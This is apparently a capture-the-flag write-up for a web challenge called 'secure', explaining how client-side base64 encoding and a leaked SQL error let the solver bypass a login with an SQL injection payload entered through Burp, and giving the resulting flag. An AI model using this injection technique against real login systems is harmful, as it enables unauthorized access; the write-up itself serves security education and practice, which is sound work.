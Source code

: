 # web/secure
### BrownieInMotion

## Description
Just learned about encryption—now, my website is unhackable!

secure.mc.ax

[index.js](Assets\index.js)

## Solution
We use Burp to intercept requests<br/>
When logging in with username `admin` and password `qwerty`, we see that a POST request is sent to `/login`, with the parameters: `username=YWRtaW4%3D&password=cXdlcnR5`<br/>
Essentially, it is sending base64 encoded text from the username and password field<br/>
We are also greeted with an error, which tells us the SQL statement that had been run:
```sql
SELECT id FROM users WHERE username = 'YWRtaW4=' AND password = 'cXdlcnR5';
```

We are able to intercept and change the request through Burp<br/>
We also see that we can use SQL injection to comment out a part of the query, by setting username as `YWRtaW4='/*`, and password as `*/; -- `<br/>
This causes the following SQL statement to be run<br/>
```sql
SELECT id FROM users WHERE username = 'YWRtaW4='/*' AND password = '*/; -- ';
```

Intercepting and editing the request, we get the flag

> flag{50m37h1n6_50m37h1n6_cl13n7_n07_600d}